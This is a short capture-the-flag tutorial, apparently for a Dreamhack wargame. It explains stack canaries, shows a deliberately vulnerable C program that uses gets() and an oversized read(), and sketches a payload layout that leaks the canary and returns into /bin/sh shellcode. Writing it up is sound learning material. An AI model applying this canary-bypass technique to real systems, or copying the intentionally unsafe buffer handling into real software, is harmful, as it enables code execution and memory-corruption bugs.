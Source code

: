 ```yaml
---
title : Stack Canary
---
```

[Dreamhack](https://dreamhack.io/wargame/challenges/352/)
# Canary as a Sensor
In a classical stack-overflow attack, the attacker overwrites the saved return address with arbitrary codes. To thwart this, modern compilers place a *stack canary* - a small, unpredictable value - between the `saved $rbp` and local stack frame:
![](https://i.imgur.com/v9OSoSJ.png)

To bypass the canary. an attacker should know the exact value. Because the OS randomizes the canary at run time, it usually has to be leaked via another vulnerability or brute-forced.

Below we show how to leak it.

# Leaking the Canary
```c
  1 // Name: r2s.c
  2 // Compile: gcc -o r2s r2s.c -zexecstack
  3
  4 #include <stdio.h>
  5 #include <unistd.h>
  6
  7 void init() {
  8   setvbuf(stdin, 0, 2, 0);
  9   setvbuf(stdout, 0, 2, 0);
 10 }
 11
 12 int main() {
 13   char buf[0x50];
 14
 15   init();
 16
 17   printf("Address of the buf: %p\n", buf);
 18   printf("Distance between buf and $rbp: %ld\n",
 19          (char*)__builtin_frame_address(0) - buf);
 20
 21   printf("[1] Leak the canary\n");
 22   printf("Input: ");
 23   fflush(stdout);
 24
 25   read(0, buf, 0x100);
 26   printf("Your input is '%s'\n", buf);
 27
 28   puts("[2] Overwrite the return address");
 29   printf("Input: ");
 30   fflush(stdout);
 31   gets(buf);
 32
 33   return 0;
 34 }
```

**Key Idea**:
The canary always begins with a null byte `\x00`. Since `printf()` function stops printing at the first null-byte, we can leak the rest of the canary by overwriting that leading null with a non-zero value (such as `'A' == \x41`).

# Crafting the Exploit

Then we can write attack code like this:
```python
payload =
	Shellcode +
	b"A" * (distance_to_canary - len(shellcode)) +
	(b"\x00" + canary) +
	b"B" * 8 +
	p64(ret_addr)
```

- `Shellcode` : Executes `/bin/sh`
- `b"A"` : Padding fills the gap up to the canary
- `\x00 + canary` : Leaked correct canary value w/ null-byte restored
- `b"B"` : Junk value to overwrite `old rbp`
- `p64(ret_addr)` : Return address of our shellcode, here  `&buf`

By reconstructing the canary and supplying this payload, we bypass the stack-canary check and redirect execution to our injected shellcode.
